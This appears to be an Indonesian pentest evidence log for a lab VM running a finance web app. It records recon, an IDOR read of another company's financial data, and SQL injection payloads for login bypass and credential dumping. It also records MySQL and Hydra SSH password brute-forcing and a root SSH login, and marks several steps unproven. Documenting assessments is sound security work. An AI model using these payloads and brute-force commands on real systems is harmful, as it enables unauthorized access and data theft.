

<details><summary>Isi yang direkam</summary>

```
64 bytes from 192.168.1.18: icmp_seq=1 ttl=64 time=10.5 ms
64 bytes from 192.168.1.18: icmp_seq=2 ttl=64 time=2.32 ms
64 bytes from 192.168.1.18: icmp_seq=3 ttl=64 time=1.95 ms
64 bytes from 192.168.1.18: icmp_seq=4 ttl=64 time=1.12 ms
4 packets transmitted, 4 received, 0% packet loss, time 3006ms
rtt min/avg/max/mdev = 1.115/3.966/10.472/3.781 ms
```

</details>

### [`scan-nmap.png`](bukti-pentest/scan-nmap.png) — Port dan versi layanan

**Jam 00:10 WIB.**



<details><summary>Isi yang direkam</summary>

```
22/tcp    open  ssh     OpenSSH 10.3 (protocol 2.0)
3000/tcp  open  http    Node.js Express framework
3307/tcp  open  mysql   MySQL 8.0.46
MAC Address: 08:00:27:81:9D:8D (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```

</details>

### [`2.png`](bukti-pentest/2.png) — Kredensial pada halaman publik

**Jam 00:44 WIB.**



> **Belum terbukti.** Tidak ada output tercetak — belum terbukti.

<details><summary>Isi yang direkam</summary>

```
$ curl -s http://192.168.1.18:3000/login | grep -oE 'Contoh akun:.*'
— TIDAK ADA OUTPUT TERCETAK —
```

</details>

### [`3.png`](bukti-pentest/3.png) — Login foothold

**Jam 00:44 WIB.**



<details><summary>Isi yang direkam</summary>

```
$ curl -s -c /tmp/c ... -X POST http://192.168.1.18:3000/login -d username=individu1&password=REDACTED_STORED_PASSWORD
HTTP=302 -> http://192.168.1.18:3000/dashboard
```

</details>

### [`4.png`](bukti-pentest/4.png) — IDOR data keuangan lintas perusahaan

**Jam 00:44 WIB.**



<details><summary>Isi yang direkam</summary>

```
$ curl -s -b /tmp/c http://192.168.1.18:3000/api/perusahaan/2/data-keuangan
[{"id":3,"perusahaan_id":2,"tahun":2026,"uraian":"Reimbursement transport peserta","nominal":"980000.00"},
 {"id":4,"perusahaan_id":2,"tahun":2026,"uraian":"Reimbursement konsumsi kegiatan","nominal":"2150000.00"}]
```

</details>

### [`5.png`](bukti-pentest/5.png) — SQLi - penentuan jumlah kolom

**Jam 00:44 WIB.**



> **Belum terbukti.** Tidak ada output tercetak — belum terbukti.

<details><summary>Isi yang direkam</summary>

```
$ curl -s -X POST .../login-noportal --data-urlencode "username=user_a' ORDER BY 7-- -" ...
— TIDAK ADA OUTPUT TERCETAK —
```

</details>

### [`6.png`](bukti-pentest/6.png) — SQLi - auth bypass

**Jam 00:45 WIB.**



> **Belum terbukti.** Baris `Masuk sebagai: BlackHat` tidak tercetak; yang terbukti hanya redirect 302.

<details><summary>Isi yang direkam</summary>

```
$ curl -s -c /tmp/s ... --data-urlencode "username=x' UNION SELECT 1,'hacker','x','perusahaan','BlackHat',1-- -"
HTTP=302 -> http://192.168.1.18:3000/dashboard
— Baris 'Masuk sebagai: BlackHat' TIDAK tercetak —
```

</details>

### [`7.png`](bukti-pentest/7.png) — SQLi - dump kredensial

**Jam 00:45 WIB.**



> **Belum terbukti.** Tidak ada output tercetak — belum terbukti.

<details><summary>Isi yang direkam</summary>

```
$ P="x' UNION SELECT 1,'p','x','perusahaan',(SELECT GROUP_CONCAT(...) FROM users),1-- -"
$ curl -s -c /tmp/d -o /dev/null -X POST .../login-noportal --data-urlencode username=$P ...
— TIDAK ADA OUTPUT TERCETAK; hasil dump tidak terbukti —
```

</details>

### [`8.png`](bukti-pentest/8.png) — Brute force MySQL port 3307

**Jam 00:46 WIB.**



<details><summary>Isi yang direkam</summary>

```
$ for u in root labkeu_user labkeu admin; do for p in "" root REDACTED_WEAK_PASSWORD REDACTED_DB_PASSWORD REDACTED_STORED_PASSWORD REDACTED_DB_PASSWORD; ...
TEMUKAN: labkeu_user / REDACTED_DB_PASSWORD
```

</details>

### [`9.png`](bukti-pentest/9.png) — Dump penuh basis data

**Jam 00:47 WIB.**



<details><summary>Isi yang direkam</summary>

```
| Tables_in_labkeu | data_keuangan, dokumen, perusahaan, users  (4 tabel)
| 1  | user_a     | REDACTED_STORED_PASSWORD | perusahaan | Admin CV Sinar Abadi | 1        |
| 2  | user_b     | REDACTED_STORED_PASSWORD | perusahaan | Admin PT Maju Bersama| 2        |
| 3  | individu1  | REDACTED_STORED_PASSWORD | individu   | Budi Santoso        | NULL     |
| 11 | test_individu_$(date %s) | REDACTED_TEST_PASSWORD | individu | Test Individu | NULL    |
| 13 | zzz_unique_18950 | REDACTED_TEST_PASSWORD | individu | Test | NULL |
| 14 | zzz_csrf_31965     | REDACTED_TEST_PASSWORD | individu | Test | NULL |
| 20 | esc_audit          | REDACTED_TEST_PASSWORD | perusahaan| Audit | NULL |
| data_keuangan: 4 baris, perusahaan_id 1 (2 baris) dan 2 (2 baris) |
```

</details>

### [`10.png`](bukti-pentest/10.png) — Brute force SSH dengan Hydra

**Jam 00:42 WIB.**



<details><summary>Isi yang direkam</summary>

```
$ printf 'root\nlabkeu\nadmin\nubuntu\n' > /tmp/u.txt
$ printf 'Labkeu\nREDACTED_DB_PASSWORD\npassword\nREDACTED_STORED_PASSWORD\nREDACTED_STORED_PASSWORD\ntoor\n' > /tmp/p.txt
$ hydra -L /tmp/u.txt -P /tmp/p.txt -t 4 -W 3 -f 192.168.1.18 -s 22 ssh
Hydra v9.7 starting at 2026-09-29 00:42:52
[DATA] max 4 tasks per 1 server, overall 4 tasks, 24 login tries (1:4/p:6)
[22][ssh] host: 192.168.1.18 login: root password: REDACTED_SSH_ROOT_PW
[STATUS] attack finished for 192.168.1.18 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
finished at 2026-09-29 00:42:54
```

</details>

### [`11.png`](bukti-pentest/11.png) — Akses root terkonfirmasi

**Jam 00:47 WIB.**



<details><summary>Isi yang direkam</summary>

```
$ sshpass -p 'REDACTED_SSH_ROOT_PW' ssh -o StrictHostKeyChecking=no root@192.168.1.18 "id; uname -a; cat /etc/alpine-release"
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),...
Linux localhost 6.18.52-0-lts #1-Alpine SMP PREEMPT_DYNAMIC 2026-09-15 05:37:48 x86_64 Linux
3.24.2
```

</details>

